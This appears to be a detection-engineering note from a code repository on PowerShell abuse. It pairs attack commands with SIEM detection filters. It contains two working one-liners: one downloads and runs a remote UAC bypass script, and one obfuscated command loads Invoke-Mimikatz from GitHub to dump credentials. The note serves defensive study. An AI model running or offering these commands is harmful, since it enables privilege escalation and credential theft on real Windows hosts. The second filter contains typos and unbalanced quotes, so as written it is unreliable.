

## Technique Description

As we know powershell is a powerful command line tool used for code execution. It can be used to run command cmdlet which allows commands to be run locally or on a remote computer. Also we are able to run executatble for malicious and non-malicious purposes. 


## Execution (test script used)

**Potential Attacks:** 
Attack #1: Invoke-AppPathBypass```Powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/enigma0x3/Misc-PowerShell-Stuff/master/Invoke-AppPathBypass.ps1'); Invoke-AppPathBypass" C:\Windows\System32\cmd.exe```



Attack #2: Mimikatz: ```$url='https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr```

## Detection -- Visibility -- Filter/ Correlation Rule

**Filter:** 
Filter 1: ```("eventcode=4103" OR source="wineventlog:microsoft-windows-powershell/operational" ) AND (Invoke-AppPathBypass AND DownloadString)```
Filter 2: ```("poweshell.exe OR  source="wineventlog:microsoft-windows-powershell/operational" )  AND mimikatz OR sekurlsa="logonpasswords"```
